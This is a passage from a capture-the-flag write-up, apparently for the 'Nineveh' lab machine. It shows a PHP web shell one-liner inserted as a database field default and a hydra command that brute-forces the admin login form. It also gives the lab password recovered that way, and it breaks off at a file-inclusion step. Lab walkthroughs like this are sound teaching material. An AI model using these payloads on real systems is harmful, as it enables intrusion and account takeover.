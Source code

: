 ![](images/tableCreated.png)

I used the following php code as the default field value
```
<?php system($_GET['c']); ?>
```

3. visit hack.php in the web browser  

![](images/dbPath.png)

but the path of hack.php is "/var/tmp/hack.php" so we can't access it directly  
I tried some LFI payloads but non of them worked so i switched to http login webpage

## hydra http
SQLMap was not able to detect SQLi in the login page  
I tried to bruteforce the creds using hydra  
from the html comment we know there exists a user 'amrois' but using 'amrois' gave an "Invalid username" error   
using 'admin' gave "Invalid Password" error so we need to bruteforce for admin   
```
hydra -P /usr/share/wordlists/rockyou.txt nineveh.htb http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password" -l admin -V
```

![](images/hydra_http.png)

so we can now login using these creds --> admin:1q2w3e4r5t

## LFI + RCE
after login we get this manage.php page   
the notes parameter has the value files/ninevehNotes.txt which is obviously the relative path for the txt file  
